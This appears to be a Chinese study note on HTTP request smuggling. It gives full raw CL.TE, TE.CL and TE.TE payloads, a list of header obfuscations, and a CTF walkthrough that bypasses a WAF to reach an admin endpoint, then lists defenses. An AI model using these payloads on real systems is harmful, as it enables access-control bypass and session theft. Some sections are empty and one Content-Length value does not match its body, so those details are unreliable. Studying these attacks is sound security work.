


# 🌐 HTTP/HTTPS 协议底层报文解析与请求走私 (Request Smuggling) 攻防深度精解

> **协议设计缺陷背景**：HTTP/1.1 为了提高网络传输性能，引入了 **TCP 连接复用（Keep-Alive）与管线化（Pipelining）机制**，允许多个 HTTP 请求在同一个底层 TCP 连接上像流水线一样连续收发。
> 在现代 Web 架构中，前端反向代理（CDN / WAF / Nginx / HAProxy）与后端应用服务器（Tomcat / Node.js / Apache）通常共用这一长连接链路。
> 当且仅当**前后端两台服务器对“一个 HTTP 请求在哪里结束、下一个请求从哪里开始”的边界判定产生歧义分歧**时，**HTTP 请求走私（HTTP Request Smuggling / Desync Attack）**应运而生！
> 攻击者能够将恶意请求前缀“走私”给下一个无辜用户的合法请求，实现凭空接管会话、盗取特权 Cookie、绕过边界访问控制乃至投毒缓存！

---

## 0. 基础前置认知与小白扫盲：从生活寄信彻底搞懂 HTTP 与 HTTPS

### 1. 通俗生活比喻：寄快递的单号、信封与包裹
* **HTTP 请求的三段式结构**：
  * **请求行（快递面单主信息）**：例如 `POST /login HTTP/1.1`。告诉你这次动作是送货（POST）还是取件（GET），去哪个房间（`/login`），以及遵守第几代交通法（`HTTP/1.1`）。
  * **请求头（信封上的备注贴纸）**：例如 `Host: example.com`（收件公司名称）、`User-Agent`（寄件人乘什么车来的，如 Chrome 浏览器）、`Cookie`（客户专属 VIP 身份手环）。
  * **请求体（包裹箱子里真正装的货物）**：例如用户输入的账号密码 `username=admin&password=123`。

---

### 2. HTTPS 为什么安全？对称加密与非对称加密的完美配合
* **纯对称加密的死穴（单把钥匙防盗门）**：
  * 如果客户端和服务器只用同一个密钥（如 AES）加密，那第一次在网上传递这把密钥时，黑客一旦在半路拦截，就能把以后的所有数据看得一清二楚！
* **纯非对称加密的死穴（保险箱公钥投信口与私钥）**：
  * RSA/ECC 非对称加密极度安全，但运算复杂度极高，极其耗费 CPU 算力。如果全站网页图片都用非对称加密，服务器速度会慢得像蜗牛！
* **HTTPS 的绝妙折中（混合加密体制）**：
  1. **握手阶段（用非对称加密保护钥匙）**：客户端和服务器握手时，用服务器的公钥和私钥，在绝对保密的情况下，共同协商并算出一把临时的“会话密钥”；
  2. **传输阶段（用对称加密高效传输）**：一旦双方拿到了这把临时钥匙，后续所有网页内容的传输，全部切换为极速的对称加密（AES）！既保证了 100% 安全，又保证了毫秒级的响应速度！

---

### 💡 读前必看：本篇语言与工具前置清单
* **必须具备的基础**：
  * **网络常识**：知道 IP 地址（如 `192.168.1.1`）与域名（`example.com`）的关系，知道浏览器访问网站走的是网络通信。
  * **工具认知**：建议先安装并启动 **Burp Suite**（网络安全领域最经典的抓包改包神器）。如果从未接触过抓包工具，可先参阅 [[01-零基础入门前置指南与黑话工具字典#二、抓包神器-burp-suite-极简入门|Burp Suite 极简上手指引]]。
* **本篇核心术语速查**：
  * `

`：回车换行符（CRLF），在 HTTP 报文里用来把各个请求头一行行隔开。
  * `Keep-Alive`（TCP 长连接）：一次三次握手建立后，可以在同一条连接上连续发多个 HTTP 请求，无需每次都重新连。

## 一、HTTP/1.1 报文结构与请求体边界界定规范

根据 RFC 7230 规范，一个包含实体的 HTTP 请求报文由以下结构组成：

```text
POST /submit HTTP/1.1\r\n          <--- 起始行 (Request Line)
Host: example.com\r\n             <--- 头部字段 (Headers)
Content-Type: text/plain\r\n
Content-Length: 11\r\n
\r\n                              <--- 核心空行 (CRLF, \r\n, 分隔头部与主体)
Hello World                       <--- 消息主体 (Message Body, 长度=11字节)
```

### 两种判定请求体长度的官方标准：



> [!CAUTION]
> **RFC 7230 冲突解决准则**：
> 规范明确指出：“如果一个请求同时包含了 `Transfer-Encoding` 和 `Content-Length` 标头，**`Transfer-Encoding` 必须覆盖 `Content-Length`，优先作为解析标准！**”
> **然而，并非所有服务器都严格遵守规范！某些服务器优先遵循 CL，某些优先遵循 TE，这便是请求走私的根源裂隙！**

---

## 二、HTTP 请求走私三大主流分类底层时序剖析



---

### 1. 核心变体一：CL.TE 走私（前端看 CL，后端看 TE）

* **攻击前提**：前端反向代理不支持或忽略 `Transfer-Encoding`，根据 `Content-Length` 转发；后端应用服务器优先遵守 `Transfer-Encoding: chunked`。

#### 🔍 恶意攻击报文设计：
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 44
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

#### 报文交互时序深度拆解：
1. **前端代理视角**：
   * 前端看到 `Content-Length: 44`；
   * 从空行之后开始计算，一直数到 `X-Ignore: X` 末尾，恰好为 44 个字节；
   * 前端认为这是一个**完整且合法的单一 POST 请求**，将其原封不动转发给后端的长连接池！
2. **后端服务器视角**：
   * 后端优先识别 `Transfer-Encoding: chunked`；
   * 后端读取第一个分块：`0\r\n\r\n`；
   * **根据分块协议，大小为 0 的块即意味着当前 HTTP 消息体已彻底结束！** 后端立即处理并返回该 POST 请求的响应；
   * **关键绝杀**：紧随其后的字符串 `GET /admin HTTP/1.1\r\nHost: localhost\r\nX-Ignore: X` **被遗留在 TCP 接收缓冲区内**，被后端当作**下一个即将到达的请求的起始部分**！
3. **受害者发包被污染**：
   此时，无辜的普通用户发送了一个正常的请求：
   ```http
   GET /home HTTP/1.1
   Host: vulnerable-website.com
   Cookie: session=secret_admin_token
   ```
   后端从缓冲区读取数据，与残留数据拼接在一起：
   ```http
   GET /admin HTTP/1.1
   Host: localhost
   X-Ignore: XGET /home HTTP/1.1
   Host: vulnerable-website.com
   Cookie: session=secret_admin_token
   ```
   * 后端误以为受害者正在请求 `/admin`，且携带着受害者的特权 Cookie，导致未授权访问或越权操作成功触发！

---

### 2. 核心变体二：TE.CL 走私（前端看 TE，后端看 CL）

* **攻击前提**：前端代理优先处理 `Transfer-Encoding: chunked`；后端服务器不支持分块传输，只按 `Content-Length` 读取。

#### 🔍 恶意攻击报文设计：
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

#### 拆解分析：
* 前端依据 `Transfer-Encoding` 处理，看到有效长度 `5c`（十六进制，对应 92 字节），一直读取到最后的 `0\r\n\r\n`，判定完整放行。
* 后端依据 `Content-Length: 4` 处理，只读取了开头的 `5c\r\n`（共 4 字节），就认为该请求接收完毕并处理。
* 剩下的 `GPOST / ...` 滞留在后端 TCP 管道中，直接拼接入后续请求！

---

### 3. 核心变体三：TE.TE 标头混淆走私

* **原理**：前后端都声称支持 `Transfer-Encoding`，但攻击者通过特异性构造的混淆格式（如标头名大小写、空格、制表符、多重标头），导致**其中一台服务器成功解析 TE，而另一台服务器因容错机制失败而回退到 `Content-Length`**！

#### 常见的 TE 混淆形态矩阵：
```http
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: [tab]chunked
Transfer-Encoding: chunked\r\nTransfer-Encoding: identity
X: X[\n]Transfer-Encoding: chunked
```

---

## 三、CTF 实战靶场案例复现（CL.TE 走私绕过前端访问特权接口）

### 靶场情境：边界 WAF 阻断与后端未授权管理接口

* 前端架构：使用反向代理暴露到公网。
* 防护规则：前端 WAF 严格拦截任何路径以 `/admin` 开头的外部请求（返回 403 Forbidden）。
* 后端接口：`/admin` 接口仅限 `localhost` 访问，但后端缺少身份认证。
* 探测发现：前端采用 `Content-Length`，后端采用 `Transfer-Encoding`（典型 CL.TE 漏洞点）。

### 1. 构造精确到字节的走私 Payload

```http
POST / HTTP/1.1
Host: challenge.ctf:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin/get_flag HTTP/1.1
Host: localhost


```

> [!IMPORTANT]
> **计算 Content-Length 避坑指南（逐字节精确核算）**：
> 在 HTTP/1.1 规范中，换行必须是严格的网络标准换行符 `\r\n`（回车换行，占 2 个字节），而非单个 `\n`。
> 上述请求体中各部分字节数精确拆解如下：
> 1. `0\r\n`（3 字节：分块传输终止符 `0` 与换行）
> 2. `\r\n`（2 字节：分块结束空行）
> 3. `GET /admin/get_flag HTTP/1.1\r\n`（30 字节：28 字符请求行 + 2 字节 `\r\n`）
> 4. `Host: localhost\r\n`（17 字节：15 字符 Host 标头 + 2 字节 `\r\n`）
> 5. `\r\n`（2 字节：前置走私请求结束空行）
> 
> 精确总长度：$3 + 2 + 30 + 17 + 2 = \mathbf{54}$ 字节！因此标头精确填写 `Content-Length: 54`。若长度算少 1 字节会导致后端等待超时，算多 1 字节会吞掉后续请求的首字符！

### 2. 发送走私包与捕获响应

第一次在 Burp Suite 中发送该攻击报文，服务器返回正常的当前主页响应（走私报文已成功滞留于后端连接池）；
**紧接着发送第二个任意普通请求：`GET / HTTP/1.1`**：

```http
HTTP/1.1 200 OK
Content-Type: application/json
Server: Internal-Admin-Service

{
    "status": "authorized",
    "role": "admin",
    "flag": "flag{http_r3qu3st_smuggl1ng_cl_t3_pwn3d!}"
}
```
成功完全绕过前端代理对 `/admin` 路径的 403 拦截，由后端内部连接池直接调用管理接口输出 Flag！

---

## 四、安全加固与根本性防御规范

1. **端到端升级至 HTTP/2 或 HTTP/3**：
   * HTTP/2 与 HTTP/3 采用完全基于二进制帧（Binary Frames）的长度封装，彻底摒弃了纯文本 `\r\n` 与 `Transfer-Encoding: chunked` 的模糊边界，从底层通信协议上消除了走私的物理基础。
2. **规范化反向代理设置**：
   * 前端代理严格对非标准或含混的报文进行清洗，若请求同时存在 `Content-Length` 与 `Transfer-Encoding`，**直接返回 400 Bad Request 抛弃，绝不向后端转发**！
3. **禁用后端长连接复用（Keep-Alive）**：
   * 将前端代理与后端应用服务器之间的通信配置为**短连接（`Connection: close`）**，每个请求使用独立的 TCP 链路，使任何走私残留数据无法跨请求传递。

---

## 🔗 相关双向链接
- 上级模块：[[01-Web基础与信息收集]]
- 架构基础：[[02-Web架构全景：服务器、中间件、后端语言与数据库交互]]
- 侦察渗透：[[03-资产发现、指纹识别与源码泄露挖掘实战]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
